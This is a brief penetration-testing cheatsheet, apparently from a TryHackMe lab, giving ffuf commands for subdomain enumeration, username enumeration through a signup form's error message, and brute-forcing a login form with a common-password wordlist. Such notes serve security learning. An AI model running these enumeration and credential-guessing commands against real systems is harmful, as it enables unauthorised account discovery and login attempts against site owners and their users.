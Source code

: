 #webapp #recon #bruteforce #tool 

[[ffuf Cheatsheet]]

#### Subdomain Enumeration

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.115.19
```

#### Ignore a given Size of response

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.115.19 -fs {size}
```

#### Username Fuzz

```bash
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.192.226/customers/signup -mr "username already exists"
```

#### Username/Password Fuzz

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.192.226/customers/login -fc 200
```

